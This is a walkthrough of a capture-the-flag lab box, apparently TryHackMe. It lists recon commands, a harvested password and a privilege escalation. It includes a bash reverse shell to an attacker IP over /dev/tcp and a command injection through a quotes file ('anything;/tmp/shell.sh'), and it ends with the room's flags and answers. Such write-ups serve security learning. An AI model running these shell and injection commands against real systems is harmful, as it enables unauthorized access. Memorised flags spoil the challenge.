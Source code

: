 Let's find out what his agent is up to....  

Answer the questions below

```
export IP=10.10.61.237
```

```
nmap -sC -sV -v -p- -oN scans/nmap $IP
```

![[Pasted image 20240608112028.png]]


```
gobuster dir --url $IP --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -o scans/gobuster.txt
```

![[Pasted image 20240608112609.png]]


```
ftp 10.10.157.172
```

![[Pasted image 20240609102859.png]]

```
ls -la
```

![[Pasted image 20240609102923.png]]

```
cat dad_tasks
```

![[Pasted image 20240609103324.png]]

![[Pasted image 20240609103342.png]]


![[Pasted image 20240609103430.png]]


| Question                   | Answer                                             |
| -------------------------- | -------------------------------------------------- |
| What is Weston's password? | Mydadisghostrideraintthatcoolnocausehesonfirejokes |

```
ssh weston@10.10.157.172
```


![[Pasted image 20240609103641.png]]

```
ls -la
```

![[Pasted image 20240609103819.png]]

```
sudo -l
```

![[Pasted image 20240609103852.png]]


```
sudo /usr/bin/bees
```

![[Pasted image 20240609103959.png]]

```
cat /usr/bin/bees
```

![[Pasted image 20240609104049.png]]

```
find / -type f -user cage 2>/dev/null
```

![[Pasted image 20240609104245.png]]

```
cat /opt/.dads_scripts/spread_the_quotes.py
```

![[Pasted image 20240609104314.png]]

```
cat /opt/.dads_scripts/.files/.quotes
```

![[Pasted image 20240609104403.png]]


*On Attacker machine:*
```
rlwrap nc -nlvp 1234
```

![[Pasted image 20240609104832.png]]


*On victim machine:*

```
cat > /tmp/shell.sh << EOF
```
```
#!/bin/bash
```
```
bash -i >& /dev/tcp/10.8.194.147/1234 0>&1
```
```
EOF
```
```
chmod +x /tmp/shell.sh
```
```
printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
```

![[Pasted image 20240609105006.png]]

![[Pasted image 20240609105019.png]]

![[Pasted image 20240609105111.png]]


| Question              | Answer                    |
| --------------------- | ------------------------- |
| What's the user flag? | THM{M37AL_0R_P3N_T35T1NG} |

```
ls -la
```

![[Pasted image 20240609105224.png]]


```
cat email_backup/*
```

![[Pasted image 20240609105259.png]]


![[Pasted image 20240609105539.png]]


```
su root
```

![[Pasted image 20240609105637.png]]

```
cd /root
```

```
cd email_backup/
```

```
cat email_1
```

![[Pasted image 20240609105855.png]]

```
cat email_2
```

![[Pasted image 20240609105940.png]]


| Question              | Answer                                |
| --------------------- | ------------------------------------- |
| What's the root flag? | THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3} |
